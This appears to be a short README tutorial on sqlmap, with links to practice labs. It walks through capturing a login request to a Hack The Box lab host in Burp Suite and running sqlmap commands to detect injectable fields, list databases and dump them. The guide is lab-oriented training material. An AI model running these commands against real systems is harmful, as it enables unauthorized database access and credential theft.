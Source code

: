- [SQLmap tutorial for begineers](https://tryhackme.com/room/sqlmap)
- [SQLmap video tutorial](https://www.youtube.com/watch?v=pF7uz_ptuFc&ab_channel=ElPing%C3%BCinodeMario)
- [SQLmap extended video tutorial](https://www.youtube.com/watch?v=2y70Yj0oSxw&ab_channel=SEGURIDADCERO)
- [SQLi Laboratory for practice](https://app.hackthebox.com/machines/446)

# Usage

## 1) Intercept the request header with burpsuite, the request should be like:
```javascript
POST /login HTTP/1.1
Host: 10.10.11.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.10.11.130
DNT: 1
Connection: close
Referer: http://10.10.11.130/
Upgrade-Insecure-Requests: 1

email=admin%40admin.com&password=admin // <--This field its the injection point
```
## 2) Create a .txt file (peticion.txt) and paste the Burpsuite request
```bash
nano peticion.txt
```
## 3) Use SQLmap with the previouse .txt file (peticion.txt example)
```bash
sqlmap -r peticion.txt
```
- Note: Sometimes SQLmap would ask if we want to add some extra parameteres.
- Note 2: You can access the output on path: /home/kali/.local/share/sqlmap/output/<target_host_name>
## 4) Detect the current databases. After this payload we should see at the output the lists of Databases
```bash
sqlmap -r peticion.txt -dbs
```
## 5) Dump the database information
```bash
sqlmap -r peticion.txt -D <name_of_database> -dump
```
